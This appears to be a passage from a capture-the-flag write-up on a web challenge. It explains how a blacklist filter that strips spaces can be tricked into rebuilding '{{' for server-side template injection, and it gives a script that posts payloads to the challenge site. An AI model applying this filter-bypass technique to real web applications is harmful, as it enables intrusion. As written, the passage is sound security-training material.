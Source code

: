 Here is ``secure()`` function:

```py
def secure(s):
    r = ["{{", "}}", "{%", "%}", "\.[a-zA-Z]", "import", "os", "system", "self", '\["', " "]
    for elem in r:
        s = sub(elem, "", s)
    return s
```

We can't inject ``{{`` or ``{%`` so it's impossible to SSTI... BUT look a the last filter, secure function replaces whitespaces by empty string, so to bypass ``{{`` filter we can put ``{ {``. Let's try to have a 500 code on the page that confirms that is working.

I made a python script to make easier the submitting:

```py
import requests
from bs4 import BeautifulSoup as bs
from re import sub

def secure(s):
    r = ["{{", "}}", "{%", "%}", "\.[a-zA-Z]", "import", "os", "system", "self", '\["', " "]
    for elem in r:
        s = sub(elem, "", s)
    return s

payload = input("Payload: ")

data = {
    "username":"oui",
    "age":"oui",
    "sexe":"oui",
    "picture":payload,
    "description":"oui"
}

r = requests.post("http://fantasybook.ec2qualifications.esaip-cyber.com/login", data=data)

soup = bs(r.text, 'html.parser')
img = soup.find("img", attrs={"id":"alert"})

print(f"Payload: {secure(payload)}")

if img is None:
    print("Error 500")
else:
    print(img)
```

Let's try with ``{ {``:

```
[Fantasy Book]~$ python3 fantasy_book.py 
Payload: { {

Payload sanitized: {{

Error 500
```
